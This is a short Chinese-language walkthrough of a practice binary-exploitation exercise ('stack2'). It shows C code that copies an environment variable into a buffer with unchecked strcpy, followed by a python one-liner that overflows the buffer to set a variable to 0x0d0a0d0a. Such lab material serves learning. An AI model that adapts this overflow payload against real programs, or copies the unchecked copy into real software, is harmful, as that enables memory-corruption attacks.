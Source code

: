 关于环境变量的更多信息：

```
https://en.wikipedia.org/wiki/Environment_variable
```
# 破解程序
回到正题
~~~
variable = getenv("GREENIE");
strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
~~~
首先获取了一个名为GREENIE的环境变量，然后将内容赋予variable变量，之后if判断modified是否等于0x0d0a0d0a，这个和第一个程序一模一样，只不过我们不是通过输入来破解程序，而是将payload放到指定的环境变量里，然后程序读取环境变量

~~~
export GREENIE=$(python -c "print 'A'*(4*16)+'\x0a\x0d\x0a\x0d'"); ./stack2
~~~

直接运行就能成功破解了

![在这里插入图片描述](https://img-blog.csdnimg.cn/ae4c4a865c98439392e54e8f1e36e75d.png)

